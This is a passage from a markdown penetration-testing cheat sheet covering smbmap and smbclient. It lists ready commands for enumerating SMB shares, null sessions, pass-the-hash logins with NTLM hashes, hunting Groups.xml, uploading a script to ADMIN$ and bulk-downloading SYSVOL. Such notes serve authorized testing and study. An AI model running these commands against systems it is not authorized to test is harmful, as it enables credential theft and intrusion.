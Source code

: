    ```
  - Search for `Groups.xml` in given share:
    ```bash
    smbmap -R $shareName -H $ip -A Groups.xml -q
    ```
  - Downloads a file in quiet mode:
    ```bash
    smbmap -R $sharename -H $ip -A $fileyouwanttodownload -q
    ```
  - Using hash:
    ```bash
    mbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
    ```
- smbclient
  - https://www.samba.org/samba/docs/current/man-html/smbclient.1.html
  - Client that can "talk" to an SMB/CIFS server
  - Operations
    - Upload/download functionality
    - Retrieving directory information
    ```
    smbclient //192.168.1.23/wwwroot
    smbclient //192.168.1.23/C$ WIN20082017 -U Administrator
    smbclient //192.168.1.23/C$ A433F6C2B0D8BB92D7288ECFFACFC7CD -U Administrator --pw-nt-hash # make sure to only use the NT portion of the hash
    smbclient -L \\WIN7\IPC$ -I 192.168.13.218
    smbclient \\192.168.13.236\some-share -o user=root,pass=root,workgroup=BOB
    smbclient -L $ip -U guest -p 445 ""
    smbclient -L $ip -U $username -p 445
    password: <prompt>
    smbclient -L //server/share
    smbclient -L //server/share password options
    ```
  - Null session: `smbclient -N -L (TARGET IP) -m SMB2`
  - Null session mount: `smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -m SMB2`
  - User session mount: `smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER) -m SMB2`
  - Kerberos Auth: `smbclient --kerberos //ws01win10.domain.com/C$`
  - Pass the hash: `smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)`
  - Upload file: `smbclient //192.168.31.142/ADMIN$ -U "nobody"%"somepassword" -c "put 40280.py"`
  - Pass-the-hash:
    ```
    smbclient -U testuser%<nthash> --pw-nt-hash -L 192.168.0.1
    smbclient \\\\192.168.0.1\\domain -U testuser%<nthash> --pw-nt-hash
    ```
  - Map drives:
    ```
    smbclient \\\\192.168.0.1\\sharename$
    smbclient \\\\192.168.0.1\\sharename$ -U root%
    ```
  - Recursive download: https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient
    ```
    smbclient '\10.11.1.220\SYSVOL' -U='contoso/jane%SuperPassword^' -c 'prompt OFF;recurse ON;lcd './';mget *'
    ```
    ```
    smb: \> RECURSE ON
    smb: \> PROMPT OFF
    smb: \> mget *
    ```
    ```
    mask ""
    recurse ON